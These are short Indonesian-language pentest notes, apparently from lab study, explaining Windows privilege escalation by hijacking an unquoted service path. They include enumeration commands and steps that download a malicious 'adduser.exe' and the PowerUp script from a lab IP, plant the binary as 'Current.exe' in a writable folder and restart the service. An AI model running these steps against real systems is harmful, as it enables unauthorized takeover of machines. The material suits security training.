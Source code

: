 Windows bakal nyari exenya dengan urutan atas ke bawah kyk gini:
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

Tinggal cari folder mana yang writable pake icacls <folder_name>
> Palingan writablenya yang "C:\Program Files\Enterprise Apps"

Berarti kita tinggal bikin malicious binary namanya "Current.exe" di C:\Program Files\Enterprise Apps\Current.exe
lalu restart servicenya. Semudah itu,

1. Cari unquoted service path yang bukan di C:\Windows\ directory.
```cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
>> pake cmd.exe

or bs kyk tadi

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object { $_.PathName -notmatch 'System32' }
```
>> Cari yang di nama foldernya ada Space.

2. Check kita bisa restart servicenya apa ngga
```cmd
icacls "C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe"
```
3. Kalo bisa, check mana folder yang bisa kita write.
```cmd
icacls C:\
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```
>> Ternyata "C:\Program Files\Enterprise Apps\" writable.

4. Tinggal bikin "Current.exe" malicious dan taro di C:\Program Files\Enterprise Apps\Current.exe
```cmd
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```
5. Restart servicenya.
```cmd
Restart-Service GammaService
or
Stop-Service GammaService
Start-Service GammaService
```
>> Even error, itu krn binarnya berbubah dri yg intended. Tapi tetep keexecute.

6. Boom!

7. With PowerUp
```cmd
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
```cmd
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
Note: Cuma powerup usernya gk persistent.
